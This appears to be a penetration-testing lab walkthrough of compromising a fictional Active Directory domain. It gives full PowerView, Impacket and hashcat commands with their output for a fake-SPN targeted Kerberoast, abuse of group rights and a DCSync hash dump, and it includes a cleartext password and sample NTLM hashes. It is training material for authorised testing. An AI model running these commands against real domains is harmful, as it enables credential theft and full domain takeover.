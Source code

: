 # Active Directory Compromise

To recap, we dug through the Active Directory environment and obtained the following credential pair:

`mssqladm:DBAilfreight1!`

Digging into the BloodHound data we see that we have `GenericWrite` over the `ttimmons` user. Using this we can set a fake SPN on the `ttimmons account` and perform a targeted Kerberoasting attack. If this user is using a weak password then we can crack it and proceed onwards.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go back to the `DEV01` machine where we had loaded PowerView. We can create a PSCredential object to be able to run commands as the `mssqladm` user without having to RDP again.

```powershell
PS C:\DotNetNuke\Portals\0> $SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)
```

Next we'll use `Set-DomainObject` to set a fake SPN on the target account. We'll create an SPN named `acmetesting/LEGIT` which we'll of course delete later and note in the appendices of our report.

```powershell
PS C:\DotNetNuke\Portals\0> Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=ttimmons)(name=ttimmons)(displayname=ttimmons))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons
```

Next we can go back to our attack host and use `GetUserSPNs.py` to perform a targeted Keberoasting attack.

```shell-session
$ proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:389-<><>-OK
ServicePrincipalName  Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  --------  --------  --------------------------  ---------  ----------
acmetesting/LEGIT     ttimmons            2022-06-01 14:32:18.194423  <never>               



|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$6c391145c0c6430a1025df35c3e674c4$<SNIP>
```

Next we'll fire up Hashcat and see if the user is using a weak password.

```shell-session
$ hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$$6c391145c0c6430a1025df35c3e674c4$<SNIP>:<PASSWORD REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFRE...6e6976
Time.Started.....: Wed Jun 22 16:32:27 2022 (22 secs)
Time.Estimated...: Wed Jun 22 16:32:49 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   485.7 kH/s (2.50ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10678272/14344385 (74.44%)
Rejected.........: 0/10678272 (0.00%)
Restore.Point....: 10672128/14344385 (74.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Rock4ever! -> Redeye2

Started: Wed Jun 22 16:32:24 2022
Stopped: Wed Jun 22 16:32:51 2022
```

They are! Now we have yet another credential pair, time for the ttimmons user. Let's check and see what type of access this user has. Looking in BloodHound again we see that we have `GenericAll` over the `SERVER ADMINS` group.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking a bit further we see that the `SERVER ADMINS` group has the ability to perform the DCSync attack to obtain NTLM password hashes for any users in the domain.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use abuse this by first adding the `ttimmons` user to the group. First we'll need to create another PSCredential object.

```powershell
PS C:\htb> PS C:\DotNetNuke\Portals\0> $timpass = ConvertTo-SecureString '<PASSWORD REDACTED>' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)
```

Once this is done, we can add the user to the target group and inherit the DCSync privileges.

```powershell
PS C:\DotNetNuke\Portals\0> $group = Convert-NameToSid "Server Admins"
PS C:\DotNetNuke\Portals\0> Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'ttimmons' to group 'S-1-5-21-2814148634-3729814499-1637837074-1622
```

Finally, we can use Secretsdump to DCSync all NTLM password hashes from the Domain Controller.

```shell-session
$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:49676-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e55xxxxxxxxxx787ddbb6e6afa2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b9362dfa5abf924b0d172b8c49ab58ac:::
inlanefreight.local\avazquez:1716:aad3b435b51404eeaad3b435b51404ee:762cbc5ea2edfca03767427b2f2a909f:::
inlanefreight.local\pfalcon:1717:aad3b435b51404eeaad3b435b51404ee:f8e656de86b8b13244e7c879d8177539:::
inlanefreight.local\fanthony:1718:aad3b435b51404eeaad3b435b51404ee:9827f62cf27fe221b4e89f7519a2092a:::
inlanefreight.local\wdillard:1719:aad3b435b51404eeaad3b435b51404ee:69ada25bbb693f9a85cd5f176948b0d5:::

<SNIP>
```

***

## Next Steps

After making sure to document all of our steps we could perform a number of actions, many of which are detailed in the next section. Its definitely a good idea to dump the entire NTDS database and perform offline password cracking to give the client an idea of their overall password strength and other metrics. You could also show evidence of being able to authenticate to a Domain Controller and running a few commands as this may drive the point home more than seeing secretsdump output, which they may not be familiar with. Connecting to the Domain Controller via RDP and including a screenshot to the report showing a console open with the results of the `hostname`, `whoami`, and `ipconfig /all` commands can be a great visual. There is also a lot of extra value we can add after Domain Admin by performing additional audit steps of AD, attacking domain and forest trusts (if in scope) and, finally, testing the client's alerting by either creating a new Domain Admin and Enterprise Admin or adding an account we control into each of these groups. Ideally they are monitoring these highly privileged groups and will catch this and either manually, or, even better, have something automated in place to remove the accounts from the groups. If you do this definitely include this action in the report as a configuration change in the appendices and also give the client kudos if they do detect it and action it appropriately. Giving credit for the good things you see in the network/the client does is important and goes a long way towards building good will.

